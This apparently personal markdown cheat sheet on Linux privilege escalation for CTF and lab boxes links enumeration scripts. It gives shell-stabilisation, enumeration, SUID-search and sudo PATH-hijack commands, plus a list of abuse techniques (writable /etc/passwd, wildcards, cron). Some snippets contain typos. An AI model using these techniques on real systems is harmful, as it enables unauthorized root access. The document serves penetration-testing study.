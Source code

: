 # *Nix Privilege Escalation
Once in the system, escalate to root/privilaged user.

**Scripts to help get a good view on the lay of the land**
Read the scripts and see which one fits the box. Automate local enum, look for any highlights, cron jobs, non standard scripts or programs, hard coded credentials, password reuse! against existing accounts

- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) by: carlospolop
- [LinEnum.sh](https://github.com/rebootuser/LinEnum) By: Rebootuser 
- [Linuxprivchecker.py](www.securitysift.com/download/linuxprivchecker.py) By: Mike Chumak (Security Sift)
- [linexpchecker.py](https://github.com/inquisb/miscellaneous) By: Bernado Damele (inquisb)

**Curated binary files**
[GTFOBINS](https://gtfobins.github.io/)


**Stabilize Your Shell**
Make another shell
```
which nc
nc $ip $port

which python
python -c 'import pty; pty.spawn("bin/bash")'

// In Kali
stty -a # Notice number of rows and columns
stty raw -echo && fg
// On target system
reset
stty rows xx
stty columns yy
export TERM=xterm-256color


```
**General Info/Enum**
```
//username, groups
id
hostname

// Part of too many groups? Find out all the files you've access to
for i in $(groups); do echo "=======$i======"; find / -group $i 2>/dev/null | grep -v "proc" >> allfiles; done

// Network
netstat -antp

// Don't overlook past cmd history
less .bash_history
less mysql_history

// check for user accounts
cat /etc/passwd | grep "sh$\|python"

// sudo privs?
sudo -l

// Permissions
find / -perm -4000 -ls 2>/dev/null

// who has the password process
ps -e -f | grep passwd
```
**Abusing sudo**
Does the user have a command or file that can run sudo?
```
Remember to check Programs on GTFOBins
sudo -l 
```

Symbolic links, PATH and privilage escalation vulnerability
```
// Absolutepath not specified
echo "/bin/sh" > <program_name>
chmod 777 <program_name>


// Export PATH=.:$PATH (to a gobal writable folder]
check current path 
export $PATH
add path
export:(newpath)$PATH

// sudo launch program
sudo <program_name> or ./<program_name>
```
Further research:
- [Vulnhub: Hackme 1](Hackme 1: https://www.vulnhub.com/entry/hackme-1,330/)
- [Hacking Articles: Using PATH Variable](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)


**Weak file permissions**
**Abusing CRON Jobs**

**Abusing wildcards**

- Password file /etc/passwd has write access
	- hacking articles: editing /etc/passwd file for privilage esclation
- TCMP dump
	- [Vulnhub: Web developer 1](https://www.vulnhub.com/entry/web-developer-1,288/)Fred Wemeijer 5Nov2018
- CHOWN & tar
	- hacking articles: exploiting wildcard for privilage esclation
- mounting the folder
	- [Vulnhub: pegasus](https://www.vulnhub.com/entry/pegasus-1,109/)Knapsy 16Dec2014
- group.xml file
	- hacking articles: penatration testing on group policy references
- SMB psexecution services
	- [HTB: active]
- "doas" functionality similiar to sudo functionality and "less"
	- [HTB: ypuffy]
	- [HTB: four and six 2]
- MySQL running as root
	- hacking articles: raven2 machine
- AWK
	- hacking articles: linux privilage esclation using exploiting sudo rights
- "rsh" is set with SUID bit, "pfexec", wget in sudoers file
	- HTB: sunday
- /usr/bin/pip mentioned in sudoers file
	- hacking articles: wakanda
- /bin/screen 4.5.0
	- HTB: haircut
- curl
	- HTB: curling
- tmux is screen multiplier running as root
	- /bin/tmux

## Further References/Research
### Reads
- [Fundamentals of Linux Privilage Esclation](https://www.slideshare.net/nullthreat/fund-linux-priv-esc-wprotections) Elliot Cutright

### Videos
- [Linux Privilage Esclation - Trade Craft Security Weekly #22](https://www.youtube.com/watch?v=oYHAi0cgur4) Security Weekly, Beau Bullock (@dafthack) - 14Dec2017
- [Privilage Esclation FTW](https://www.youtube.com/watch?v=yXe4X-AIbps) Jake Williams - 15Nov2018
- [ts Too Funky In Here04 Linux privilege escalation for fun profit and all around mischief Jake Willi](https://www.youtube.com/watch?v=kuE2yqULs-Y) Jake Williams - 10Sep2016 @MalwareJake
